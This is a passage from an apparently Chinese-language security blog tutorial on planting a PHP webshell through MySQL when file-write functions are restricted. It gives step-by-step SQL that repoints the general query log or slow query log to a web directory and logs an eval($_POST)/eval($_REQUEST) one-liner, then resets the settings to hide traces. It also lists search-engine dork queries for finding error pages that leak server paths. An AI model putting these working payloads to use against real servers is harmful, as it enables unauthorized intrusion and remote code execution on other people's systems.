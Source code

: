 **● 基于全局日志的写入**
基于全局日志的写入方式，适用于`secure_file_priv`这个配置参数限制了文件写入函数`into outfile`或`into dumpfile`函数的使用，没有写权限。有root权限，能够执行sql语句，并且网站的绝对路径且具有写入权限。查看日志配置，关注日志监测是否开启，然后修改日志路径，来写入shell

```
	# 查看全局日志配置，包括log日志的开启状态和日志文件存储位置
show variables like "%general%";
# 开启日志监测
set global general_log = on;
# 设置需要写入的路径
set global general_log_file = 'file path';
# 然后执行sql语句，mysql会将我们执行的语句记录到日志文件(上一步修改后的文件)中
select "<?php eval($_POST['shell']);?>";
# 结束后，再修改为原来的路径
set global general_log_file = '原来的路径';
# 关闭日志记录
set global general_log = off;

```

![在这里插入图片描述](https://i-blog.csdnimg.cn/blog_migrate/230ae102c2b59e2eae26ad9295415f84.png)

● **基于慢查询日志的写入**
慢日志记录的是执行时间超过一定时间的语句，默认的执行时间为10秒，通常情况下执行sql语句时的执行时间一般不会超过10s，所以说慢日志文件应该是比较小的，而全局日志记录文件会记录大量数据，可能会影响我们写入的内容。

```
# 查询慢日志功能开启状态以及慢日志目录 
show variables like '%slow_query_log%';
# 查看服务器默认时间值方式
show global variables like '%long_query_time%';
# 开启慢日志功能
set global slow_query_log = 'ON';
# 设置慢日志路径
set global slow_query_file = 'file path';
# 写入shell
select '<?php eval($_REQUEST["a"]);?>' or sleep(11);

```

   ***路径获取常见方法***
文件读写的前提是获取到目标网站的相关文件路径，常见的获取文件路径的方法：

**● 报错显示**
网站报错时，会显示一些路径信息，可以使用谷歌语法搜素，结合关键字搜索出错页面的网页快照，常见关键字有`warning`和`fatal error`。注意，如果目标站点是二级域名，site接的是其对应的顶级域名

```
site:xxx.edu.tw "warning"
site:xxx.com.tw "fatal error"

```

● **遗留文件**
很多网站的根目录下都存在测试文件，可以利用这些测试文件获取绝对路径，例如类似`phpinfo()`。
